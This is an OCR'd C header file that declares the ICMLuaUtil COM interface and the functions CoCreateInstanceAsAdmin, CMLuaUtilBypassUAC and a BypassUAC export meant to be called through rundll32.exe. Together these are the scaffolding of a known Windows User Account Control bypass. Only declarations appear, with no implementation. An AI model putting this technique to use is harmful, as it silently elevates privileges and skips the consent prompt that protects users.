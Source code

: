     	HRESULT(STDMETHODCALLTYPE* SetRegistryStringValue)(
    		__RPC__in ICMLuaUtil* This,
    		_In_      HKEY hKey,
    		_In_opt_  LPCTSTR lpSubKey,
    		_In_opt_  LPCTSTR lpValueName,
    		_In_      LPCTSTR lpValueString
    		);
    
    	HRESULT(STDMETHODCALLTYPE* Method9)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method10)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method11)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method12)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method13)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method14)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method15)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method16)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method17)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method18)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method19)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method20)(
    		__RPC__in ICMLuaUtil* This);
    
    	END_INTERFACE
    
    } *PICMLuaUtilVtbl;
    
    interface ICMLuaUtil
    {
    	CONST_VTBL struct ICMLuaUtilVtbl* lpVtbl;
    };
    
    HRESULT CoCreateInstanceAsAdmin(HWND hWnd, REFCLSID rclsid, REFIID riid, PVOID* ppVoid);
    
    BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable);
    
    // import func called by rundll32.exe
    void CALLBACK BypassUAC(HWND hWnd, HINSTANCE hInstance, LPSTR lpszCmdLine, int iCmdShow);
    